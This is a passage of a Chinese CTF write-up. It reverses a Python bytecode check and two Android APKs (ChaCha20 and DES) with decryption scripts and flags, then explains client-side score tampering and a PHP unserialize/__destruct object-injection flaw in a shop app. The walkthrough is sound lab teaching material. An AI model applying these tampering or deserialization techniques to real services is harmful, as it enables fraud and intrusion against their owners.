0x7C, 0xA3, 0x1E, 0x8B, 0x15, 0xB9, 0xA8, 0xCB, 0x22, 0xA6, 0x52, 0xD6, 0xFB, 0x5D, 0xDD, 0xB2, 0x6E, 0xE8, 0xF2, 0xE1, 0x2A, 0x58, 0x62, 0x12, 0x11, 0x50, 0x75, 0xB7, 0xAC, 0x90, 0x0B, 0x85, 0x02, 0xBE]

inv = {v: i for i, v in enumerate(sbox)}

key = [0xB9, 0xCD, 0xCE, 0x30, 0xB8, 0x61, 0x4E, 0xAA]
target = [
    0xA3, 0x5B, 0x4C, 0x0A, 0x0E, 0xB8, 0xF4, 0xDA,
    0x14, 0x75, 0x02, 0x3A, 0x8D, 0xE5, 0x77, 0xD5,
    0xB1, 0x43, 0xAC, 0xA7, 0xB1, 0x49, 0xA5, 0x64,
    0xD7, 0x96, 0x02, 0xA7, 0xB1, 0x79, 0x42, 0xB6,
    0x53, 0x43, 0x43, 0x49, 0x5C, 0x6C
]

flag = bytes(inv[t] ^ key[i & 7] for i, t in enumerate(target))
print(flag.decode())
```

flag：flag{557050ec8cf8f479b22ad0797f69fe3e}

### 字节码迷踪

题目：

> 题目内容：你发现了一个可疑的Python编译文件集合。这些.pyc文件被认为是某个加密程序的组成部分，其中隐藏着重要的flag信息。由于原始源代码已经丢失，你只能通过分析编译后的字节码来还原程序逻辑并提取flag。 挑战内容： 每个文件都包含一个被混淆的验证程序，其中隐藏着一个flag flag格式为：flag{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}（其中x为小写字母或数字） 你需要通过逆向分析这些字节码文件，找出隐藏的flag  
> 题目难度：中级  
> 题目分类：REVERSE  
> 题目分值：350

思路：

给了一个 py_obf_04.pyc，直接用在线工具 [PyLingual](https://pylingual.io/) 反编译一下



拿到源码

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'temp_challenge.py'
# Bytecode version: 3.12.0rc2 (3531)
# Source timestamp: 2026-04-05 13:07:22 UTC (1775394442)

import base64
def decrypt_flag(encoded_data, key):
    decoded = base64.b64decode(encoded_data)
    return ''.join((chr(b ^ key) for b in decoded))
def main():
    encoded_flag = 'oaumoLz+oKqlsqnz/+qg8Kir6ret/73qq7Gx/+quqPC39Km3srar8vW6'
    xor_key = 199
    user_input = input('请输入flag: ').strip()
    correct_flag = decrypt_flag(encoded_flag, xor_key)
    if user_input == correct_flag:
        print('正确！')
    else:
        print('错误！')
if __name__ == '__main__':
    main()
```

这个加密函数很简单，flag 被 base64 编码后再用单字节 XOR 加密，程序运行时解密出真正 flag，然后和用户输入比较。直接写个解密脚本即可

exp：

```python
import base64

encoded_flag = 'oaumoLz+oKqlsqnz/+qg8Kir6ret/73qq7Gx/+quqPC39Km3srar8vW6'
key = 199

data = base64.b64decode(encoded_flag)
flag = ''.join(chr(b ^ key) for b in data)

print(flag)
```

flag：flag{9gmbun48-g7ol-pj8z-lvv8-io7p3npuql52}

### ChaCha20

> 题目内容：ChaCha20 安装命令：adb install -t xx.apk  
> 题目难度：初级  
> 题目分类：REVERSE  
> 题目分值：150

思路：

给了一个安卓的安装包，使用 jadx-gui 打开，定位到 main 函数



​`MainActivity` 里真正绑定按钮点击的是这个函数：

```java

    /* JADX INFO: Access modifiers changed from: private */
    /* renamed from: a, reason: merged with bridge method [inline-methods] */
    public void m296lambda$onCreate$0$comcrmyapplicationMainActivity(View anchor) {
        String candidate = this.inputFlag.getText().toString();
        boolean ok = NativeBridge.m62c(candidate);
        if (ok) {
            startActivity(new Intent(this, (Class<?>) SuccessActivity.class));
        } else {
            Snackbar.make(anchor, "flag错误", -1).show();
        }
    }

```

- ​`candidate = this.inputFlag.getText().toString();` 从输入框取用户输入。
- ​`NativeBridge.m62c(candidate);`​ 把输入交给 native 方法 `m62c` 校验。
- ​`ok`​ 为真就进入成功页面，否则弹出 `flag错误`。

所以后面不用管那些没有被按钮调用到的分支，只需要追 `NativeBridge.c(String)`。

​`NativeBridge` 里声明了多个 native 方法：

```java
package com.p001cr.myapplication;

/* loaded from: classes3.dex */
public final class NativeBridge {
    /* renamed from: a */
    public static native byte[] m59a(byte[] bArr);

    /* renamed from: ab */
    public static native boolean m60ab(String str);

    /* renamed from: b */
    public static native byte[] m61b(byte[] bArr);

    /* renamed from: c */
    public static native boolean m62c(String str);

    /* renamed from: cd */
    public static native boolean m63cd(String str);

    /* renamed from: dc */
    public static native boolean m64dc(String str);

    static {
        System.loadLibrary("myapplication");
    }

    private NativeBridge() {
    }
}
```



这里表面上有很多方法，但 Java 层按钮只调用 `c`​。而且 so 里没有直接导出 `Java_com_cr_myapplication_NativeBridge_c`​，这说明它大概率用了 `JNI_OnLoad` 动态注册。

然后可以用压缩工具解压一下 CrackMe_1_3.apk， 在 CrackMe_1_3\lib\x86 目录下找到 libmyapplication.so 文件，然后使用 idapro 打开，按 Shift + F12 打开 Strings，搜 NativeBridge



然后定位到真正 native 注册表了。接下来不要看这个 sub\_25070 本身，要点 off\_57214，它是 JNINativeMethod 数组，里面会列出 NativeBridge.a / b / c 分别对应哪个 native 函数。



NativeBridge.c(String) 对应的 native 函数是 sub\_25390。下一步双击 sub\_25390 看伪代码，它才是 flag 校验函数。



双击就定位到  sub_25390 函数



先把参数名改掉，别被 IDA 的 Hello\_from\_C\_ 误导。这里第三个参数其实是 Java 传进来的用户输入：

```c
int sub_25390(JNIEnv *env, jclass clazz, jstring input)
```

这段可以整理成伪代码：

```c
bool NativeBridge_c(JNIEnv *env, jclass clazz, jstring input)
{
    if (input == NULL)
        return false;

    const char *s = env->GetStringUTFChars(input, 0);
    if (s == NULL)
        return false;

    std::string user_input(s);
    env->ReleaseStringUTFChars(input, s);

    sub_274E0(user_input);
    sub_27520(user_input);

    sub_257A0(v9);
    sub_27590(v8);

    for (int i = 0; i < vector_size(global_table); i++) {
        item = vector_at(global_table, i);
        if (string_equal(v8, item)) {
            return true;
        }
    }

    return false;
}
```

大概逻辑如下

```java
Java 输入
  -> GetStringUTFChars
  -> std::string
  -> 某个 byte 处理流程
  -> 转成 hex/string 结果 v8
  -> 和全局表里的字符串逐个比较
  -> 匹配则 true
```

然后再跟踪一下 sub_257A0(v9); sub_27590(v8); 这两个函数，可以发现 ub\_257A0 就是 ChaCha20 加密/解密流程，sub\_27590 就是 bytes 转 hex。现在只差三个东西：输入明文来源、key、nonce、目标 hex。



sub\_257A0 的伪代码可以写成如下：

```c
bytes chacha20_xor(bytes input)
{
    out.resize(input.length);
    counter = 1;

    for (offset = 0; offset < input.length; offset += 64) {
        key = unk_F345;
        nonce = unk_F365;
        keystream = chacha20_block(key, counter, nonce);
        counter++;

        block_len = min(64, input.length - offset);

        for (j = 0; j < block_len; j++) {
            out[offset + j] = input[offset + j] ^ keystream[j];
        }
    }

    return out;
}
```

再看 sub\_27590：



现在完整校验链已经能写出来：

```c
用户输入 string
  -> 转 bytes
  -> ChaCha20 XOR，key = unk_F345，nonce = unk_F365，counter = 1
  -> 加密结果转 hex
  -> 和全局 target hex 列表逐项比较
```

现在提取相关的数据，

1. 双击 unk\_F345 看它的字节内容。它应该是 ChaCha20 的 32 字节 key。

   

   ```c
   [+] Dump 0xF345 - 0xF364 (32 bytes) :
   [0x14, 0x92, 0x63, 0xA1, 0x6F, 0x2D, 0x89, 0xCB, 0xF0, 0x37, 0x5B, 0x1C, 0xA9, 0x4E, 0x78, 0xD3, 0x22, 0x60, 0x17, 0xEE, 0x9A, 0xBC, 0x4D, 0x08, 0x53, 0xE1, 0x76, 0x2A, 0x8D, 0xC4, 0x90, 0x3F]
   ```
2. 双击 unk\_F365看它的字节内容。它应该是 nonce，通常是 12 字节。

   

   ```c
   [+] Dump 0xF365 - 0xF370 (12 bytes) :
   [0x44, 0x33, 0x22, 0x11, 0xAB, 0xCD, 0xEF, 0x66, 0x88, 0x99, 0xAA, 0x55]
   ```

   1

Shift + F12 能发现一串 16 进制数据应该就是密文



```c
d097c3f6d229da23ab72ad35ebe681988a148d2771f1b894c4405595c7587d198378a5c2fb9d3bf80e91eb018dc396042a72ef33d01bf01bb2c32b3abb245620799d36adc57c
```

exp：

```c
from Crypto.Cipher import ChaCha20

key = bytes([
    0x14, 0x92, 0x63, 0xA1, 0x6F, 0x2D, 0x89, 0xCB,
    0xF0, 0x37, 0x5B, 0x1C, 0xA9, 0x4E, 0x78, 0xD3,
    0x22, 0x60, 0x17, 0xEE, 0x9A, 0xBC, 0x4D, 0x08,
    0x53, 0xE1, 0x76, 0x2A, 0x8D, 0xC4, 0x90, 0x3F,
])

nonce = bytes([
    0x44, 0x33, 0x22, 0x11,
    0xAB, 0xCD, 0xEF, 0x66,
    0x88, 0x99, 0xAA, 0x55,
])

target_hex = (
    "d097c3f6d229da23ab72ad35ebe681988a148d2771f1b894c4405595c7587d198"
    "378a5c2fb9d3bf80e91eb018dc396042a72ef33d01bf01bb2c32b3abb24562079"
    "9d36adc57c"
)

ciphertext = bytes.fromhex(target_hex)

cipher = ChaCha20.new(key=key, nonce=nonce)

# native 里 counter 从 1 开始；PyCryptodome 默认从 counter=0 开始，
# 所以跳过第一块 64 字节 keystream。
cipher.seek(64)

flag = cipher.decrypt(ciphertext)
print(flag.decode())
```



flag：flag{b527e2621131134ec22251cfbca75e8c9f5ae4f41371871fd55911927f66a1b4}

### DES加密验证

> 题目内容：安装命令：adb install -t xx.apk  
> 题目难度：初级  
> 题目分类：REVERSE  
> 题目分值：350

思路：

依旧是一道安卓逆向的题 CrackMe_2_2.apk， jadx-gui 打开，定位到 main 函数



```java
package com.p001cr.crackme2;

import android.content.Context;
import android.content.Intent;
import android.content.res.AssetManager;
import android.os.Bundle;
import android.util.Log;
import androidx.appcompat.app.AppCompatActivity;
import com.p001cr.crackme2.databinding.ActivityMainBinding;
import dalvik.system.PathClassLoader;
import java.io.File;
import java.io.FileOutputStream;
import java.io.InputStream;
import java.lang.ref.WeakReference;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

/* loaded from: classes3.dex */
public class MainActivity extends AppCompatActivity {
    private ActivityMainBinding binding;

    public static native boolean verifyFlag(String str);

    static {
        System.loadLibrary("crackme2");
    }

    private byte[] readAssetsToBytes(Context context, String fileName) throws Exception {
        AssetManager am = context.getAssets();
        InputStream is = am.open(fileName);
        byte[] buffer = new byte[is.available()];
        is.read(buffer);
        is.close();
        return buffer;
    }

    /* renamed from: a */
    private File m57a(Context context, String assetName, String outFileName) throws Exception {
        AssetManager am = context.getAssets();
        File outFile = new File(context.getFilesDir(), outFileName);
        InputStream is = am.open(assetName);
        try {
            FileOutputStream fos = new FileOutputStream(outFile);
            try {
                byte[] buffer = new byte[8192];
                while (true) {
                    int len = is.read(buffer);
                    if (len == -1) {
                        break;
                    }
                    fos.write(buffer, 0, len);
                }
                fos.close();
                if (is != null) {
                    is.close();
                }
                return outFile;
            } finally {
            }
        } catch (Throwable th) {
            if (is != null) {
                try {
                    is.close();
                } catch (Throwable th2) {
                    th.addSuppressed(th2);
                }
            }
            throw th;
        }
    }

    /* renamed from: b */
    private void m58b() throws IllegalAccessException, NoSuchFieldException, NoSuchMethodException, ClassNotFoundException, SecurityException, IllegalArgumentException, InvocationTargetException {
        try {
            File dexFile = m57a(this, "classes3.dex", "mydex.dex");
            Log.i("DEX", "加载成功，路径：" + dexFile.getAbsolutePath());
            Class<?> activityThreadCls = Class.forName("android.app.ActivityThread");
            Method currentActivityThreadMethod = activityThreadCls.getDeclaredMethod("currentActivityThread", new Class[0]);
            currentActivityThreadMethod.setAccessible(true);
            Object activityThread = currentActivityThreadMethod.invoke(null, new Object[0]);
            Field mPackagesField = activityThreadCls.getDeclaredField("mPackages");
            mPackagesField.setAccessible(true);
            Object mPackages = mPackagesField.get(activityThread);
            Method getMethod = mPackages.getClass().getMethod("get", Object.class);
            Object ref = getMethod.invoke(mPackages, "com.cr.crackme2");
            Method getRefMethod = WeakReference.class.getMethod("get", new Class[0]);
            Object loadedApk = getRefMethod.invoke(ref, new Object[0]);
            Field mClassLoaderField = loadedApk.getClass().getDeclaredField("mClassLoader");
            mClassLoaderField.setAccessible(true);
            ClassLoader customClassLoader = new PathClassLoader(dexFile.getAbsolutePath(), getClassLoader());
            mClassLoaderField.set(loadedApk, customClassLoader);
            Class mainActClass = customClassLoader.loadClass("com.cr.test.wide");
            Method initMethod = mainActClass.getMethod("init", Integer.TYPE, Integer.TYPE, Integer.TYPE);
            int flag_activity = C0540R.layout.flag_activity;
            int editFlag = C0540R.id.editFlag;
            int btnVerify = C0540R.id.btnVerify;
            initMethod.invoke(null, Integer.valueOf(flag_activity), Integer.valueOf(editFlag), Integer.valueOf(btnVerify));
            startActivity(new Intent(this, (Class<?>) mainActClass));
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) throws IllegalAccessException, NoSuchFieldException, NoSuchMethodException, ClassNotFoundException, SecurityException, IllegalArgumentException, InvocationTargetException {
        super.onCreate(savedInstanceState);
        this.binding = ActivityMainBinding.inflate(getLayoutInflater());
        setContentView(this.binding.getRoot());
        m58b();
    }
}
```

大概分析一下代码，说明最终验证在 native 层。 native 库是：libcrackme2.so

```java
    public static native boolean verifyFlag(String str);

    static {
        System.loadLibrary("crackme2");
    }

```

说明它从 assets 里拿出 classes3.dex，写成 mydex.dex，然后动态加载 com.cr.test.wide。

```java
File dexFile = m57a(this, "classes3.dex", "mydex.dex");
ClassLoader customClassLoader = new PathClassLoader(dexFile.getAbsolutePath(), getClassLoader());
mClassLoaderField.set(loadedApk, customClassLoader);
Class mainActClass = customClassLoader.loadClass("com.cr.test.wide");
```

这段流程可以理解成：

```java
MainActivity 启动
  -> 加载 libcrackme2.so
  -> 从 assets/classes3.dex 释放 mydex.dex
  -> 替换当前 App 的 ClassLoader
  -> 加载 com.cr.test.wide
  -> 把布局 id / 输入框 id / 按钮 id 传给 wide.init()
  -> 启动 wide Activity
```

后面的 wide 才是真正展示输入框和按钮的界面，它会反射调用

```java
MainActivity.verifyFlag(candidate)
```

所以 MainActivity 本身不是最终验证界面，它只是一个壳：负责加载 native 库，再把 assets 里的 dex 动态拉起来。接下来继续看 `assets/classes3.dex`​ 反编译出来的 `com.cr.test.wide`。



```java
package com.p000cr.test;

import android.os.Bundle;
import android.util.Log;
import android.view.View;
import android.widget.Button;
import android.widget.EditText;
import androidx.appcompat.app.AppCompatActivity;
import com.google.android.material.snackbar.Snackbar;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

/* loaded from: D:\Users\11714\Desktop\第十届御网杯网络安全大赛\REVERSE\DES加密验证\CrackMe_2_2\assets\classes3.dex */
public class wide extends AppCompatActivity {
    private static Button btnVerify;
    private static EditText editFlag;
    private static int mBtnVerifyId;
    private static int mEditFlagId;
    private static int mLayoutId;

    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setupUI();
    }

    public static void init(int layoutId, int editFlagId, int btnVerifyId) {
        mLayoutId = layoutId;
        mEditFlagId = editFlagId;
        mBtnVerifyId = btnVerifyId;
    }

    public void setupUI() {
        setContentView(mLayoutId);
        editFlag = (EditText) findViewById(mEditFlagId);
        btnVerify = (Button) findViewById(mBtnVerifyId);
        setupListeners();
    }

    /* renamed from: com.cr.test.wide$1 */
    class ViewOnClickListenerC00001 implements View.OnClickListener {
        ViewOnClickListenerC00001() {
        }

        @Override // android.view.View.OnClickListener
        public void onClick(View v) throws IllegalAccessException, NoSuchMethodException, ClassNotFoundException, SecurityException, IllegalArgumentException, InvocationTargetException {
            wide.this.verify(v);
        }
    }

    private void setupListeners() {
        btnVerify.setOnClickListener(new ViewOnClickListenerC00001());
    }

    private boolean callNativeMethod(String str) throws IllegalAccessException, NoSuchMethodException, ClassNotFoundException, SecurityException, IllegalArgumentException, InvocationTargetException {
        try {
            Class<?> clazz = Class.forName("com.cr.crackme2.MainActivity");
            Method method = clazz.getMethod("verifyFlag", String.class);
            Object result = method.invoke(null, str);
            if (result instanceof Boolean) {
                boolean ok = ((Boolean) result).booleanValue();
                Log.i("51asm", "结果: " + ok);
                return ok;
            }
        } catch (ClassNotFoundException e) {
            Log.e("51asm", "❌ 类未找到: " + e.getMessage());
        } catch (IllegalAccessException e2) {
            Log.e("51asm", "❌ 访问权限异常: " + e2.getMessage());
        } catch (NoSuchMethodException e3) {
            Log.e("51asm", "❌ 方法未找到: " + e3.getMessage());
        } catch (InvocationTargetException e4) {
            Log.e("51asm", "❌ 方法执行异常: " + e4.getCause().getMessage());
        } catch (Exception e5) {
            Log.e("51asm", "❌ 其他异常: " + e5.getMessage());
        }
        return false;
    }

    /* JADX INFO: Access modifiers changed from: private */
    public void verify(View anchor) throws IllegalAccessException, NoSuchMethodException, ClassNotFoundException, SecurityException, IllegalArgumentException, InvocationTargetException {
        EditText edit = (EditText) findViewById(mEditFlagId);
        String candidate = edit.getText().toString();
        boolean ok = callNativeMethod(candidate);
        if (ok) {
            Snackbar.make(anchor, "恭喜，这是一个正确的flag", -1).show();
        } else {
            Snackbar.make(anchor, "flag错误", -1).show();
        }
    }
}
```

- ​`init(...)` 接收 MainActivity 传来的布局和控件 id，用来复用主 APK 里的资源。
- ​`setupUI()` 设置验证界面，并绑定输入框和按钮。
- ​`verify(...)`​ 从输入框取出字符串 `candidate`，这个就是用户输入。
- ​`callNativeMethod(candidate)` 是验证入口。
- ​`Class.forName("com.cr.crackme2.MainActivity")` 重新找到主 APK 里的 MainActivity。
- ​`clazz.getMethod("verifyFlag", String.class)` 通过反射拿到 native 方法。
- ​`method.invoke(null, str)`​ 因为 `verifyFlag`​ 是 static 方法，所以第一个参数传 `null`。

到这里 Java 层已经很清楚了：动态 dex 只负责界面和反射调用，真正的判断在 `MainActivity.verifyFlag` 对应的 native 函数中。

然后继续分析 \CrackMe_2_2\lib\x86 目录下的 libcrackme2.so，依旧使用 idapro 打开

然后再函数区域 ctrl+f 搜索 verifyFlag



这就是 DES 题 native 真校验函数。它的逻辑是：取用户输入，做 8 字节 padding，用 key 12345678 做 DES-ECB，加密结果转 hex，再和全局目标字符串比较。

以整理成更准确的伪代码如下：

```c
bool verifyFlag(JNIEnv *env, jclass clazz, jstring j_input)
{
    const char *input = env->GetStringUTFChars(j_input, 0);
    int input_len = strlen(input);

    size_t padded_len = 0;
    unsigned char *padded = pkcs7_pad(input, input_len, &padded_len);

    unsigned char *encrypted = malloc(padded_len);
    des_ecb_encrypt(padded, padded_len, "12345678", encrypted);

    std::string encrypted_hex = bytesToHex(encrypted, padded_len);

    bool ok = false;
    if (encrypted_hex == target_list[0]) {
        ok = true;
    }

    free(padded);
    free(encrypted);
    env->ReleaseStringUTFChars(j_input, input);
    return ok;
}
```

然后就得定位密文 unk\_58010 ，对 unk\_58010 按 X 看交叉引用。





然后就能找到验证的密文，

```c
666c61677b484e43544636325244594e54464d5a3154467d0808080808080808
```

hex 解密拿到 flag



flag：flag{HNCTF62RDYNTFMZ1TF}

## web

### Snake\_Game

> 题目内容：经典的贪吃蛇游戏，只要拿到 300 分即可获得 Flag！你能做到吗？
>
> 题目难度：初级
>
> 题目分类：WEB
>
> 题目分值：150
>
> 靶机地址：47.99.147.34:17713

思路：

直接抓包改成  300 分在发送过去即可



flag：flag{990bbcc6f10cdec005051a07f73dbc3c}

### PHP\_Payment

> 题目内容：一个现代化的数字资产商城，买一个 Supreme Flag 需要 99999 巨款！有没有什么隐藏的 VIP 优惠券能用呢？
>
> 题目难度：初级
>
> 题目分类：WEB
>
> 题目分值：250

思路：

这题是一个很典型的 PHP Web 逻辑漏洞题。页面上有一个数字资产商城，初始余额只有 20 金币，普通 VIP 售价 10，Flag 售价 99999。题目文案里故意提了一句“有没有什么隐藏的 VIP 优惠券能用呢”，而页面右上角又直接给了一个“输入 Base64 代金券”的输入框。这个设计其实已经把突破方向提示得很明显了，重点就是优惠券处理逻辑。

整题真正的利用链并不长，但如果没有把每一步为什么成立想清楚，很容易在中间卡住。我的实际分析过程可以概括成下面这样：

1. 先确认页面有哪些交互接口，找到购买和优惠券两个核心请求点。
2. 再结合源码看优惠券接口到底做了什么处理。
3. 一旦发现 `base64_decode + unserialize`，马上转去找参与反序列化的类定义。
4. 在类定义里定位到真正会改余额的魔术方法。
5. 按类结构手工构造对象，把 `promo_credit` 设成一个足够大的值。
6. 用同一个 `PHPSESSID`​ 先应用优惠券，再购买 `flag`。

这题最核心的知识点其实就是一句话：

$$
\text{用户可控数据} \rightarrow \text{unserialize()} \rightarrow \text{魔术方法自动执行} \rightarrow \text{Session 中的余额被修改}
$$

只要把这条链看透，这题基本就结束了。

**先从页面功能和请求关系入手**

前端页面上能看到两个购买按钮，一个买 `basic_vip`​，一个买 `flag`。除此之外，还有一个专门输入优惠券的输入框，提示文字是“输入 Base64 代金券”。这里有两个非常关键的信号：

- 优惠券不是普通明文字符串，而是某种经过 Base64 包装的数据。
- 页面已经明确告诉我们，后端大概率会主动对这个值做 Base64 解码。

再看前端 JavaScript，核心逻辑如下：

```javascript
function buyItem(item) {
    const formData = new URLSearchParams();
    formData.append('item', item);

    fetch('/buy.php', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: formData.toString()
    })
}

function applyCoupon() {
    const fp = new URLSearchParams();
    fp.append('coupon', b64);

    fetch('/api/apply_coupon.php', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: fp.toString()
    })
}
```

看到这里其实已经能把题目的两个关键入口定下来了：

- 购买逻辑在 `/buy.php`
- 优惠券逻辑在 `/api/apply_coupon.php`

接下来就不用猜了，直接进源码。

**优惠券接口是整题的第一个漏洞入口**

​`/api/apply_coupon.php` 的核心代码如下：

```php
<?php
session_start();
include '../config.php';
include '../models.php';
header('Content-Type: application/json');

if (!isset($_SESSION['user_id'])) {
    die(json_encode(["error" => "Authentication required"]));
}

$couponData = $_POST['coupon'] ?? '';

if ($couponData === '') {
    die(json_encode(["error" => "Empty coupon code"]));
}

$decoded = base64_decode($couponData);
if ($decoded === false) {
    die(json_encode(["error" => "Invalid coupon format. Must be base64."]));
}

try {
    $promo = @unserialize($decoded);
    if ($promo === false) {
        die(json_encode(["error" => "Failed to apply coupon."]));
    }
} catch (Exception $e) {
    die(json_encode(["error" => "Coupon parsing error."]));
}

echo json_encode(["success" => true, "message" => "Coupon processed."]);
?>
```

这段代码一定要逐行拆开看，因为 payload 为什么能生效，答案全在这里。

1. ​`session_start();`

   这句说明后续所有逻辑都是围绕当前用户会话展开的。也就是说，优惠券不是给全局余额加钱，而是给当前 session 里的余额加钱。
2. ​`include '../config.php';`

   这个文件在本题利用中不是核心点，但能说明这是一个普通的业务接口，不是什么单独的临时测试脚本。
3. ​`include '../models.php';`

   这是第一处必须重点盯住的地方。因为只要看到 `unserialize()`​，就一定要立刻去看当前上下文中已经加载了哪些类。PHP 反序列化对象时，只有类定义存在，对象魔术方法才有机会执行。换句话说，这句 `include`​ 基本就是在告诉我们：危险逻辑大概率藏在 `models.php` 里。
4. ​`if (!isset($_SESSION['user_id'])) { ... }`

   说明优惠券必须建立在合法 session 上，不能完全裸打。所以 exploit 里必须先访问首页，让服务端给我们发一个 `PHPSESSID`。
5. ​`$couponData = $_POST['coupon'] ?? '';`

   用户完全可控的输入点在 `coupon` 参数。
6. ​`$decoded = base64_decode($couponData);`

   这一步直接坐实了页面提示不是烟雾弹，后端真的会先做 Base64 解码。所以我们要传的并不是原始序列化对象，而是它的 Base64 包装值。
7. ​`$promo = @unserialize($decoded);`

   这就是整题的漏洞核心。可控数据直接进入 `unserialize()`​，没有签名校验，没有类白名单，没有字段过滤，没有哈希校验，也没有 `allowed_classes` 限制。这种写法本质上就是在允许用户主动构造任意已加载类的对象。
8. ​`if ($promo === false) { ... }`

   这里看起来像是“做了校验”，其实并没有真正提高安全性。因为只要我们构造出的序列化对象语法合法、类名存在、字段结构正确，反序列化就会成功。
9. ​`echo json_encode(["success" => true, "message" => "Coupon processed."]);`

   这句很有迷惑性。很多人第一次看到这里会有点疑惑：代码里没有显式调用任何“加钱”的函数，为什么前端还提示“余额已更新”？答案就是，对象的副作用不一定要靠显式方法调用触发，析构函数同样可以在脚本结束时自动执行。

到这里为止，我们已经能得出第一个明确结论：这不是“校验优惠券格式”的题，而是一个非常标准的 PHP 反序列化对象注入题。

**真正改余额的逻辑藏在类的析构函数里**

接着看 `models.php`：

```php
<?php

class PromoManager {
    public $promo_credit;
    public $promo_code;

    public function __construct($code, $credit) {
        $this->promo_code = $code;
        $this->promo_credit = $credit;
    }

    function __destruct() {
        if(isset($this->promo_credit) && is_numeric($this->promo_credit)) {
            $_SESSION['balance'] += intval($this->promo_credit);
        }
    }
}
?>
```

这段代码很短，但整题真正的利用点就集中在这里。下面按逻辑顺序逐行解释。

1. ​`class PromoManager`

   先记住类名，后面我们构造 payload 的时候必须让远端反序列化出来的对象类名就是这个，否则不会走到对应的析构逻辑。
2. ​`public $promo_credit;`

   这是最重要的属性，后面加钱完全靠它。
3. ​`public $promo_code;`

   这个字段从业务角度看像是优惠券编号，但从利用角度看并不是关键字段。它存在的意义更多是让对象结构看起来“像一个优惠券管理对象”。
4. ​`public function __construct($code, $credit) { ... }`

   构造函数只是正常给属性赋值。这里有一个很重要的 PHP 反序列化常识：当对象通过 `unserialize()` 还原时，构造函数不会自动运行。也就是说，我们不需要通过正常业务逻辑去创建对象，只要直接按照对象内部结构把属性值布置好就行。
5. ​`function __destruct() { ... }`

   这是整题最关键的刀。对象生命周期结束时，析构函数会自动执行。`apply_coupon.php`​ 在反序列化出 `$promo`​ 对象后，虽然没有再显式使用它，但脚本执行完毕时 `$promo` 仍会进入析构流程。
6. ​`if(isset($this->promo_credit) && is_numeric($this->promo_credit))`

   这说明限制条件其实非常宽松。我们只要让 `promo_credit` 存在并且是数字就可以。这里没有任何金额上限校验，也没有校验优惠券是否已使用、是否签名正确、是否属于当前用户，等于完全相信了对象里的字段内容。
7. ​`$_SESSION['balance'] += intval($this->promo_credit);`

   这里直接把漏洞打穿了。它不是把金额写进临时变量，而是直接加到当前 session 的余额里。也就是说，一旦我们能反序列化出一个合法的 `PromoManager`​ 对象，并让它的 `promo_credit` 足够大，当前会话余额就会在析构时被永久抬高。

整个利用逻辑可以写成：

$$
\text{构造 PromoManager 对象} \rightarrow \text{设置 promo\_credit} \rightarrow \text{脚本结束触发 } __destruct() \rightarrow \text{Session 余额增加}
$$

看到这里，其实题目已经被拆透了。后面需要做的只是把对象按照 PHP 序列化格式准确地造出来。

**为什么利用过程必须始终保持同一个会话**

在开始写 payload 之前，还有一个非常重要的点必须先确认，就是余额到底存在哪里。这个问题决定了 exploit 要不要保持 session 一致。

首页初始化逻辑如下：

```php
<?php
session_start();
if (!isset($_SESSION['user_id'])) {
    $_SESSION['user_id'] = bin2hex(random_bytes(8));
    $_SESSION['balance'] = 20; // Default 20 金币
}
?>
```

这段代码说明了三件事：

- 用户身份保存在 `$_SESSION['user_id']`
- 初始余额写死为 `20`
- 余额保存在 `$_SESSION['balance']`

也就是说，这题完全是一个“会话内资产系统”。如果你在会话 A 上应用了优惠券，把余额提到了 100020，然后购买 `flag` 时换成了会话 B，那么会话 B 的余额仍然只有 20，购买一定失败。

所以 exploit 一定要满足这条链：

1. 先访问首页，拿到服务端分配的 `PHPSESSID`
2. 用同一个 session 去请求 `/api/apply_coupon.php`
3. 继续沿用同一个 session 去请求 `/buy.php`

这也是我后面写脚本时为什么必须使用 `requests.Session()` 的原因。如果没有 session 复用，这题从逻辑上就不成立。

**购买逻辑决定了我们需要加多少钱，也解释了真假 flag 为什么会同时出现**

再看 `buy.php`：

```php
<?php
session_start();
include 'config.php';
header('Content-Type: application/json');

if (!isset($_SESSION['user_id'])) {
    die(json_encode(["error" => "Authentication required"]));
}

$item = $_POST['item'] ?? '';

if ($item === '') {
    die(json_encode(["error" => "Missing item parameter"]));
}

$items = [
    'basic_vip' => 10,
    'premium_vip' => 50,
    'flag' => 99999
];

if (!array_key_exists($item, $items)) {
    die(json_encode(["error" => "Invalid item."]));
}

$price = $items[$item];

if ($_SESSION['balance'] < $price) {
    die(json_encode(["error" => "Insufficient funds! You only have " . intval($_SESSION['balance']) . " 金币."]));
}

$_SESSION['balance'] -= $price;

if ($item === 'flag') {
    $flag = "flag{da91f6ee9d5cceef4705fd4f8af9e3f3}";
    if (file_exists('/var/www/flag.php')) {
        include '/var/www/flag.php';
        if (isset($FLAG)) $flag = $FLAG;
    }
    echo json_encode(["success" => true, "message" => "购买 successful! Your Flag is [ " . $flag . " ]", "balance" => $_SESSION['balance']]);
} else {
    echo json_encode(["success" => true, "message" => "购买 successful! Enjoy your " . htmlspecialchars($item) . ".", "balance" => $_SESSION['balance']]);
}
?>
```

这一段同样有几个非常关键的判断点。

1. ​`flag`​ 的价格固定是 `99999`

   所以我们构造 `promo_credit`​ 的时候，目标就非常明确，只要让余额在购前大于等于 `99999` 即可。
2. ​`if ($_SESSION['balance'] < $price) { ... }`

   整个购买逻辑唯一的门槛就是“当前 session 余额够不够”。这里没有额外权限校验，也没有检查是否为 VIP 用户，更没有检查优惠券是否真实存在。所以只要把 session 里的余额抬高，这一关就直接过了。
3. ​`$_SESSION['balance'] -= $price;`

   购买会真实扣款，这也能解释后面为什么余额会从 `100020`​ 变成 `21`。因为：

$$
100020 - 99999 = 21
$$

4. ​`$flag = "flag{da91f6ee9d5cceef4705fd4f8af9e3f3}";`

   这里非常容易误导人。源码里写死了一个 flag 样式字符串，但不能直接认定它就是真 flag。
